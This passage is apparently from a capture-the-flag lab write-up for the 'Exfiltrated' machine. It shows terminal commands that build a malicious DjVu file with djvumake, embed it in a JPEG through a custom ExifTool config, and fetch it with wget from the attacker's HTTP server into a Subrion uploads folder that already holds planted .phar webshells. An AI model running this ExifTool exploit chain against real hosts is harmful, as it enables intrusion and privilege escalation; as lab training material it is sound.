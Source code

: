 ```
┌──(kali㉿kali)-[~/…/PGPractice/Easy/Linux/Exfiltrated]
└─$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

```bash
┌──(kali㉿kali)-[~/…/PGPractice/Easy/Linux/Exfiltrated]
└─$ cat configfile 
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
        # add more user-defined EXIF tags here...
    },
);
1; #end%

```

```
┌──(kali㉿kali)-[~/…/PGPractice/Easy/Linux/Exfiltrated]
└─$ exiftool -config configfile  '-HasselbladExif<=exploit.djvu' snowman.jpg
    1 image files updated
```

Now copy this to `/var/www/html/subrion/uploads` on `exfiltrated` machine, by starting a python server
```
┌──(kali㉿kali)-[~/…/PGPractice/Easy/Linux/Exfiltrated]
└─$ python3 -m http.server                                                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
www-data@exfiltrated:/opt$ cd /var/www/html/subrion/uploads
cd /var/www/html/subrion/uploads
www-data@exfiltrated:/var/www/html/subrion/uploads$ wget http://192.168.45.197:8000/snowman.jpg
<ploads$ wget http://192.168.45.197:8000/snowman.jpg
--2024-06-10 10:41:56--  http://192.168.45.197:8000/snowman.jpg
Connecting to 192.168.45.197:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 124479 (122K) [image/jpeg]
Saving to: ‘snowman.jpg’

snowman.jpg         100%[===================>] 121.56K   197KB/s    in 0.6s    

2024-06-10 10:41:57 (197 KB/s) - ‘snowman.jpg’ saved [124479/124479]

www-data@exfiltrated:/var/www/html/subrion/uploads$ ls
ls
cmd-1.phar  cmd.phar  qavbfeuonalspfu.phar  snowman.jpg
```
